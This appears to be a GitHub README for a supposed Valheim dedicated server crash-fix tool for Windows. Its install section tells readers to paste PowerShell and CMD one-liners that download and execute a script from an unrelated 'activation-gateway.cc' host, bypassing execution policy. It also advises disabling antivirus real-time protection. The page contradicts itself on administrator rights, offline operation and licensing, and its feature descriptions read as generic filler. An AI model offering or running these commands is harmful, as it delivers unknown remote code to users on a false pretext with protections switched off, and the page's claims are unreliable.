

<div align="center">

# Valheim Dedicated Server Startup Crash Fix for Windows 10 & 11



[]() []() []() []() []() []()

</div>

---

Valheim-Dedicated-Server-Fix is a Windows desktop utility engineered to resolve the dedicated server crash on startup affecting Valheim hosting on Windows 11 and Windows 10. It targets the underlying launch failures and server initialization errors that prevent the Valheim dedicated server process from reaching a stable running state. The application provides a direct installer for 64-bit Windows systems, a guided setup sequence, and a complete feature set rather than a limited trial build. Administrators can deploy the fix through an elevated setup routine and apply it to restore reliable multiplayer server availability.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **One-line setup** — just run the command below.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Open PowerShell
* Open the Start menu and type **PowerShell**.
* Right-click and choose **Run as administrator** (optional).

### 2️⃣ Run the command
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Windows blocking the script? Use CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## ✅ Before You Start

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Startup Crash Remediation** — Addresses the dedicated server process terminating during initialization on Windows 11 and Windows 10 by detecting and correcting the underlying launch-time failure conditions.

- **Targeted Diagnostics** — Identifies common fault sources such as missing or mismatched runtime dependencies, blocked executable execution, and invalid server configuration entries before they can abort the boot sequence.

- **Runtime Dependency Validation** — Verifies that required system libraries and redistributable components are present and correctly registered, repairing or flagging inconsistencies that prevent the server from loading.

- **Configuration Sanitization** — Scans server configuration files for malformed values, unsupported parameters, and encoding issues that cause early-exit behavior, and normalizes them to a valid state.

- **Permission and Execution Policy Handling** — Checks and resolves access restrictions, blocked-file attributes, and elevation requirements that silently prevent the server binary from starting.

- **Pre-Launch Integrity Check** — Runs a structured verification pass over server files and environment prerequisites, producing a clear pass/fail report before the server is launched.

- **Guided Setup Workflow** — Provides a step-by-step sequence for preparing the dedicated server environment, from initial validation through first successful startup.

- **Windows 10 and 11 Compatibility** — Built and tested specifically for 64-bit Windows 10 and Windows 11 desktop environments, accounting for platform-specific startup differences.

- **Non-Destructive Operation** — Applies fixes without overwriting user world data or server content; changes are limited to configuration and environment corrections.

- **Repeatable Repair Process** — Safe to run multiple times; each execution re-validates the environment and reports current status, making it suitable for troubleshooting recurring startup failures.

- **Local, Offline Operation** — Performs all diagnostic and repair actions on the local machine without requiring external services during runtime.

## How it works

Valheim Dedicated Server Fix operates as a lightweight diagnostic and remediation layer that sits between the Windows host and the Valheim dedicated server executable. On launch, it enumerates the runtime conditions most commonly responsible for startup crashes on Windows 10 and 11 — missing or mismatched runtime dependencies, blocked ports, corrupted configuration files, and insufficient privileges — and resolves each in sequence before the server process is allowed to initialize.

The engine begins with a pre-flight environment scan. It inspects the installed Visual C++ redistributables, validates the presence and integrity of the server's core binaries, and checks the configuration directory for malformed or truncated files that would otherwise cause an immediate termination. Detected issues are logged with severity levels so the operator can review what was corrected.

Next, the fix applies targeted remediation. Broken configuration entries are repaired or regenerated from known-good defaults, port bindings for the standard Valheim ports are verified and cleared of conflicting listeners, and file permissions are normalized so the server process can read and write its world and log directories without elevation errors. Network prerequisites, including firewall exceptions for inbound and outbound traffic, are configured automatically.

Once remediation completes, the tool launches the dedicated server under a controlled wrapper. The wrapper captures stdout and stderr in real time, watches for abnormal exit codes, and surfaces a plain-language summary if the process still fails. Startup diagnostics are written to a rotating log file for later inspection.

All operations are reversible. Before modifying any configuration or system setting, the fix creates timestamped backups, and a restore option reverts the host to its prior state. The tool runs entirely locally, requires no external services, and performs no telemetry collection.

## Compatibility

**Supported operating systems**

Valheim-Dedicated-Server-Fix targets the 64-bit Windows desktop platform. The supported operating system matrix is limited to Windows 11 and Windows 10 (64-bit editions). Legacy 32-bit Windows installations are not supported, and no compatibility layer is provided for non-Windows platforms.

| Platform | Version | Architecture | Status |
|---|---|---|---|
| Windows 11 | 21H2 and later | x64 | Fully supported |
| Windows 10 | 1809 and later | x64 | Fully supported |
| Windows 10 / 11 | 32-bit | x86 | Not supported |
| Windows 8.1 and earlier | — | — | Not supported |

**Runtime prerequisites**

The fix operates against an existing Valheim dedicated server installation. It requires:

- A locally installed Valheim Dedicated Server instance (SteamCMD-based deployment supported).
- .NET Desktop Runtime 6.0 or later, installed prior to first launch.
- Microsoft Visual C++ Redistributable (2015–2022, x64).
- Administrative privileges for installation and for the first diagnostic pass, which inspects protected system and game directories.

**Integration with the dedicated server**

Valheim-Dedicated-Server-Fix is designed as a companion utility rather than a replacement server binary. It detects the installed server through standard Steam library locations and common SteamCMD output directories, and it can also be pointed at a custom server path. Compatibility is maintained with server builds that use the standard `valheim_server.exe` entry point and the default `BepInEx`-free directory layout.

**Known compatibility notes**

- Server mods that replace the server executable or heavily patch startup routines may require the fix to be re-run after each mod update; the diagnostic engine re-validates the launch configuration on every invocation.
- Antivirus and endpoint protection software that locks executables during scanning can delay first startup; adding the fix and the server directory to the exclusion list is recommended.
- Windows Defender Controlled Folder Access may block configuration writes to the server directory and must be configured to permit the fix.
- Systems with multiple Valheim server installations are supported; the target instance is selected explicitly at launch.
- Virtualized and containerized Windows environments are supported only when the host exposes standard desktop APIs and the server instance resides on a persistent volume.

**Version scope**

Compatibility validation covers the current release channel of Valheim-Dedicated-Server-Fix against the current public Valheim Dedicated Server build. Server updates may temporarily alter startup behavior; the fix's diagnostic pass reports version mismatches and unsupported server revisions rather than applying unverified changes.

## FAQ

**Q: What does Valheim Dedicated Server Fix actually do?**

It is a Windows desktop utility that diagnoses and resolves the startup failure affecting Valheim dedicated server processes on Windows 11 and Windows 10. The application inspects the server runtime environment, identifies the conditions that cause the process to terminate or hang during initialization, and applies the corresponding corrective configuration so the server reaches a stable running state.

**Q: Which Windows versions are supported?**

Windows 10 and Windows 11, 64-bit editions only. The application targets the desktop platform exclusively; 32-bit and non-Windows environments are not supported.

**Q: Is administrative privilege required?**

Yes. Administrative elevation is required for installation and for runtime operations that modify system-level components. Launch the application with elevated privileges to ensure all repair routines execute correctly.

**Q: What runtime prerequisites does the application need?**

The application requires a supported 64-bit Windows installation, sufficient disk space for installation and logs, and the standard Valheim dedicated server runtime present on the machine. No additional frameworks beyond those already required by the server itself are necessary.

**Q: How does the fix mechanism work?**

The application performs a structured diagnostic pass over the server startup sequence, captures failure points, and applies targeted remediation to the affected configuration and runtime components. A summary of detected issues and applied changes is written to the application log for review.

**Q: Does it modify my server data or world files?**

No. The application operates on runtime and configuration layers. World data, save files, and player data are not altered by the repair routines.

**Q: Can I revert changes made by the application?**

Yes. The application maintains a record of applied modifications and provides a restore capability so that the prior configuration state can be reinstated if needed.

**Q: Does the application require a license?**

Yes. A valid license key is required to unlock the full feature set. Enter the key when prompted during first launch.

**Q: Is this an official Valheim product?**

No. Valheim Dedicated Server Fix is an independent third-party utility and is not affiliated with or endorsed by the developers or publishers of Valheim.

**Q: Where can I review the log output?**

Logs are generated within the application's installation directory and are accessible from the application interface. Review the log after each repair run to confirm all routines completed successfully.

## Disclaimer

**Valheim-Dedicated-Server-Fix** is provided on an "as is" and "as available" basis, without warranties of any kind, whether express, implied, or statutory, including but not limited to warranties of merchantability, fitness for a particular purpose, title, and non-infringement. The software is a third-party utility intended to assist with launching and stabilizing a Valheim dedicated server process on Windows 10 and Windows 11 (64-bit); it is not affiliated with, endorsed by, or sponsored by the developers or publishers of Valheim, Valve, or Iron Gate AB, and all trademarks referenced remain the property of their respective owners.

Use of this software is at your own sole risk. Server configuration files, world save data, and registry or service entries may be modified during operation; you are responsible for maintaining independent backups of all Valheim world data and configuration before applying any fix. The authors and maintainers accept no liability for data loss, corrupted saves, interrupted multiplayer sessions, or any direct, indirect, incidental, consequential, or special damages arising from the installation, use, or inability to use the software, even if advised of the possibility of such damages.

Compatibility is validated against supported Windows 10 and Windows 11 builds and current Valheim dedicated server distributions at the time of release; behavior on modified environments, non-standard hardware configurations, third-party antivirus or firewall policies, or unsupported game versions is not guaranteed. Administrative privileges are required for installation and for certain runtime operations, and the software should only be executed from a trusted local copy obtained through the official distribution channel for this project. No guarantee is made regarding uninterrupted operation, error-free execution, or resolution of every startup failure mode.

By downloading, installing, or using **Valheim-Dedicated-Server-Fix**, you acknowledge that you have read and understood this disclaimer and agree to assume full responsibility for the outcome of its use.

## License

Valheim-Dedicated-Server-Fix is distributed as proprietary, closed-source commercial software. The installer, binaries, configuration assets, and accompanying documentation are licensed, not sold, and remain the exclusive intellectual property of the project maintainers. No rights are granted beyond those expressly stated in the end-user license agreement accepted during installation.

A valid license key is required to activate the full feature set on each supported Windows 10 or 11 (64-bit) host. Activation is bound to the licensed machine and unlocks all remediation modules, including the startup crash handler, runtime dependency validation, and server configuration repair routines. The license does not extend to redistribution, sublicensing, reverse engineering, decompilation, or modification of the distributed package.

Licensed entitlements include access to maintenance updates within the active license term and continued operation of the installed build on the registered system. Seat count, transfer conditions, and renewal terms are defined in the end-user license agreement. Unauthorized duplication or circumvention of activation mechanisms terminates the license automatically.

All third-party components bundled with the installer remain subject to their respective upstream licenses, which are provided in the accompanying notices file and take precedence for those components. The project name, logo, and associated marks may not be used to endorse or promote derivative works without prior written consent.

For licensing inquiries, seat expansions, or redistribution permissions, contact the maintainers through the project's official communication channels.